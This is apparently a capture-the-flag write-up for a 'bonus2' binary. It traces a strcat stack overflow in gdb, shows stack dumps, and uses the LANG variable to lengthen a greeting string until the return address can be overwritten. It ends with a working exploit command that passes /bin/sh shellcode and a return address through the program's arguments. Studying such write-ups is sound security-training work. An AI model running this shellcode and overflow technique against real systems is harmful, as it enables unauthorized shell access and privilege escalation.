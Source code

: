 we run the program with gdb and we start analyzing it:
In main we have a cmp in <+15> of argc and 3, that means we should enter 2 arguments or the program will exit, next at line <+78> we have a strncpy(0xbffff650, argv[1], 40) that means it will copy the first 40 characters of argv[1] into that address, and after there is another strncpy(0xbffff678, argv[2], 32) which means it will copy the first 32 characters of argv[2] into 0xbffff678. (NOTE here that the second destination address comes exactly 40 bytes after the first destination address 0xbffff650, that means if we fill all memory addresses in dst1, and since dst2 comes directly after they will be considered as only one string).
after we call getenv("LANG"), and we see the first 2 characters in that env variable, if it's "fi" or "nl" then the language variable will be set to 1 and 2 respectively, then we call greetuser(), in this function we will be setting the greet message depending on the value of language:
if language == 1 then greet = "Hyvää päivää "
if language == 1 then greet = "Goedemiddag! "
else greet = "Hello ";
after that it will concatenate this greet message with dst1 into the address 0xbffff5a0. (as we said earlier if we fill all the 40 characters of dst1, dst2 will be concatenated with it as well since it comes directly after it with no "\0").
We run the program with arg1="A"*40 and arg2="B"*32 and then try inspecting the stack after strcat:
(gdb) x $ebp+4
0xbffff5ec:	0x08004242
(gdb) x/40wx $esp
0xbffff590:	0xbffff590	0xbffff5e0	0x00000001	0x00000000
0xbffff5a0:	0x6c6c6548	0x4141206f	0x41414141	0x41414141
0xbffff5b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff5c0:	0x41414141	0x41414141	0x41414141	0x42424141
0xbffff5d0:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff5e0:	0x42424242	0x42424242	0x42424242	0x08004242
first important information is that the return address ebp+4 comes 76 bytes after our string that starts from 0xbffff590:
["Hello "(6)+"40*A"(40)+"32*B"(32)]=78 and that's why only 2 of our Bs slipped into the return address.hence why it will segfault. it also means we can't overwrite it completely since that's the max our arguments can take. unless we try changing the "LANG" variable, that means our greet message will grow.
let's try changing it to fi (export LANG=nl_US.UTF-8.
["Goedemiddag! "(13)+"40*A"+"27*B"(27)]=80 that means we can can overwrite the ret address now. we will redirect the code to the start of our string + 13 to start reading directly from the shellcode we put in arg1.

cat | ./bonus2 $(python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A"*19') $(python -c 'print "B"*23 + "\xad\xf5\xff\xbf"')

Sometimes addresses of variables in gdb will be different outside gdb this is why we can try adding ‘unset env LINES’ and ‘unset env COLUMNS’ in gdb or offseting the ret address for example "\xbd\xf5\xff\xbf"